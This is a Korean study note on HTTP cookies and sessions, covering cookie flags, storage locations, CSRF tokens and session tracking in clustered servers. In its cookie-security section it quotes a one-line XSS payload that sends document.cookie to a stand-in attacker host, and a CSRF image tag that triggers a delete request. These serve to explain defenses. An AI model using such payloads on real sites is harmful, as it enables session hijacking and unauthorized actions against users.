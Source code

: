 # Cookie와 Session

**updated 2023.04.08**

## 정의

### 쿠키와 세션

- 공통적으로 비상태성, 비연결성을 지향하는 HTTP 통신에서 서버-클라이언트간 유지해야하는 정보를 저장하기 위해 사용하는 기술이다.

- 쿠키는 클라이언트에 저장되고
- 세션은 서버에 저장되는 것이 큰 차이점이다.

## 쿠키

#### 쿠키의 목적

- 세션 관리(세션 관리)
  서버에 저장해야 할 로그인, 카트, 게임 경축 등의 정보 관리

- 개인화(Personalization)
  사용자 선호, 테마 등의 셋팅

- 트래킹(Tracking)
  사용자 행동을 기록하고 분석하는 용도

#### 쿠키 특징

1. 이름, 값, 만료일(저장 기간 설정), 경로 정보로 구성되어 있다.
2. 하나의 쿠키는 4KB(=4096byte)까지 저장 가능하다.

#### 쿠키의 동작 순서

1. 클라이언트가 페이지를 요청한다. (사용자가 웹사이트 접근)
2. 웹 서버는 응답과 함께 쿠키를 저장하라고 정보를 전달한다.
   ```
   HTTP/1.0 200 OK
   Content-type: text/html
   Set-Cookie: yummy_cookie=choco
   Set-Cookie: tasty_cookie=strawberry
   ```
3. 클라이언트는 응답을 받으면서 요청서대로 쿠키를 생성하고 로컬에 저장한다.
4. 이후 클라이언트는 다시 서버에 요청할 때 요청과 함께 쿠키를 전송한다.
5. 동일 사이트 재방문시 클라이언트의 PC에 해당 쿠키가 있는 경우,
   요청 페이지와 함께 쿠키를 전송한다.

### 쿠키는 디스크에 저장이 되는지? 메모리에 저장이 되는지?

답 : 디스크에 저장된다.

단,

- 웹브라우저 종류에 따라 쿠키가 저장되는 위치기 달라진다.

  - Google Chrome 쿠키는 물리적 위치는 C:\Users\<yourusername>\AppData\Local\Google\Chrome\User Data\Default\Local 저장소이지만 인터넷 캐시를 제외한 다른 쿠키는 SQLite 데이터베이스 파일로 인코딩된다.

  - Internet Explorer 쿠키는 C:\Users\<yourusername>\AppData\Roaming\Microsoft\Windows\Cookies에 있다.

  - Firefox의 경우
    C:\Documents 또는 Settings\username\Application Data\Mozilla\Firefox\Profiles\xxxx.default
    - 파일은 FF 버전에 따라 SQLLite 데이터베이스로 인코딩될 수 있다.

참고 : [답변 링크](https://www.quora.com/Where-on-my-machine-are-the-cookies-saved)

### 쿠키 보안 방법

MDN에서는 기본적으로

> 기밀 혹은 민감한 정보는 전체 메커니즘이 본질적으로 위험하기 때문에 HTTP 쿠키 내에 저장되거나 전송되어서는 안된다

고 권고 하고있긴 하다. 그래도 아래 설정을 통해 쿠키 보안을 강화 할 수 있다.

- Secure 설정 : HTTPS 프로토콜이 부과된(encrypted) 요청일 경우에만 전송된다.
- HttpOnly 설정 : JavaScript의 Document.cookieAPI에 접근할 수 없도록 한다. 이 설정이 된 쿠키는 스크립트로 접근 및 변경이 불가하고, 생성된 내용그대로 서버에게 전송되기만 한다.

  - 세션 하이재킹과 XSS 취약점 보완에 도움이 된다.
    ```
    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
    ```
    HttpOnly 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 누그러뜨리는데 도움을 줄 수 있다.

- 도메인과 패스 설정 : 특정 도메인과 패스에만 해당 쿠키를 전송한다.

- SameSite 설정 : 아직 실험중인 기능이지만, 쿠키가 cross-site 요청과 함께 전송되지 않았음을 요구하게 만들어, cross-site 요청 위조 공격([CSRF (en-US)](https://developer.mozilla.org/en-US/docs/Glossary/CSRF))에 대해 어떤 보호 방법을 제공한다.

  ```
  <img src="https://www.example.com/index.php?action=delete&id=123" />

  ```

  예를 들어, 수정 권한이 있는 사용자의 경우 https://www.example.com요소 가 에 있지 않더라도 요소는 사용자 모르게 <img>에서 작업을 실행하여, 링크 뒤의 URL 에 악성 매개변수를 포함하여 이를 수행할 수 있다.

  - 더 읽어보기 : [교차 사이트 요청 위변조 방지 치트 시트](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#token-based-mitigation)

  - 추가로 Spring Security 3.2.0 이후부터는 CSRF 방어 기능을 위해 CSRF토큰을 자동으로 사용한다고 한다.

    - CSRF Token은 임의의 난수를 생성하고 세션에 저장한다.
    - 그리고 사용자의 매 요청마다 해당 난수 값을 포함시켜서 전송시킨다.
    - 이후 백엔드에서는 요청을 받을 때 마다 세션에 저장된 토큰값과 요청 파라미터에 전달된 토큰 값이 같은지 검사한다.

  - 참고 [CSRFCross-site-request-forgery-공격과-토큰-로그인-처리-로그아웃-처리](https://lifere.tistory.com/entry/CSRFCross-site-request-forgery-%EA%B3%B5%EA%B2%A9%EA%B3%BC-%ED%86%A0%ED%81%B0-%EB%A1%9C%EA%B7%B8%EC%9D%B8-%EC%B2%98%EB%A6%AC-%EB%A1%9C%EA%B7%B8%EC%95%84%EC%9B%83-%EC%B2%98)

## 세션

- 세션이 만들어지는 과정
  1. 클라이언트가 페이지를 요청한다. (사용자가 웹사이트 접근)
  2. 서버는 접근한 클라이언트의 Request-Header 필드인 Cookie를 확인하여,
     클라이언트가 해당 session-id를 보냈는지 확인한다.
  3. session-id가 존재하지 않는다면,
     서버는 session-id를 생성해 클라이언트에게 돌려준다.
  4. 서버에서 클라이언트로 돌려준 session-id를 쿠키를 사용해 서버에 저장한다.
     쿠키 이름 : JSESSIONID
  5. 클라이언트는 재접속 시,
     이 쿠키(JSESSIONID)를 이용하여 session-id 값을 서버에 전달

### 세션 트래킹 모드란?

> 세션 트래킹(Session Tracking)은 좁은 의미로 요청된 세션을 찾아 주는 동작이다. 클러스터링 환경에서 세션 트래킹의 지원 범위(Scope)에 따라 라우팅(Routing)에 의한 세션 트래킹과 세션 서버(Session Server)를 통한 세션 트래킹으로 구분된다.

참고 문서 : [제1장 세션 트래킹(Session Tracking)](https://technet.tmaxsoft.com/upload/download/online/jeus/pver-20140827-000001/session/chapter_session_tracking.html)

<img src="https://technet.tmaxsoft.com/upload/download/online/jeus/pver-20140827-000001/session/resources/session-tracking/05_without_session_routing_client_session_is_lost_in_a_clustered_environment.png"/>

1. 클라이언트 A가 웹서버 A에 첫 통신후 세션을 생성한 상태이다.
2. 클러스트 환경(동일한 기능을 하는 웹서버 A와 B)에서 클라이언트 A가 두번째 요청을 보냈을 때, 이 요청은 항상 웹서버 A에게 간다는 보장이 없다. 만약 B에게 이 요청이 가면
   > 웹 엔진 B는 요청과 세션 쿠키를 받는다. 자신의 메모리 영역에서 쿠키에 대응하는 HTTP 세션을 가져오려고 시도하지만 대응하는 HTTP 세션 객체가 없기 때문에 가져올 수 없다.
   > 따라서 웹 엔진 B는 클라이언트 세션을 유지할 수 없고 새로운 세션을 강제로 생성하거나 또는 오류 메시지를 반환한다(물론 두 옵션 모두 권장하지 않는다).

이러한 문제를 해결하는 방법은 크게 2가지가 있다.

- 라우팅으로 처리
  <img src="https://technet.tmaxsoft.com/upload/download/online/jeus/pver-20140827-000001/session/resources/session-tracking/07_session_routing_in_action.png"/>

  - 세션 라우팅은 클러스터된 환경에서 해당 세션에 자신이 생성 또는 저장된 엔진의 ID를 부여하는 기능을 의미한다.
  - 해당 엔진 ID가 쿠키에 포함되어 있기 때문에 웹 서버에서는 해당 엔진 ID를 확인하여 요청을 할 수 있다.
  - 그로 인해 웹 엔진의 메모리에 저장되어 있는 세션의 효율을 증가시킬 수 있다.

- 세션 서버로 처리
  <img src="https://technet.tmaxsoft.com/upload/download/online/jeus/pver-20140827-000001/session/resources/session-tracking/09_storing_session_data_and_session_id_in_a_separate_session_server.png"/>

  - 세션 서버는 위 그림과 같이 공용 저장소의 역할을 수행한다. 웹 엔진 A, 웹 엔진 B는 각각 별도의 저장 매체이며 서로의 내용을 참조할 수 없게 구성되어 있다. 그러나 세션 서버를 마치 둘의 공용 저장소처럼 두고 세션에 대한 정보를 저장하고, 또 불러오도록 하여 세션의 공유를 돕는다.

  - 세션 서버를 사용할 때에는 모든 웹 엔진이 클러스터 내의 모든 웹 서버에 연결될 필요는 없다. 또한 세션 서버는 클러스터 내의 모든 세션 데이터에 대해 신뢰적인 백업 기능을 제공한다. 따라서 특정 웹 엔진에 장애가 발생해도 세션 데이터는 저장되고, 다른 정상적인 웹 엔진이 장애가 발생한 웹 엔진의 요청을 대신 처리한다.

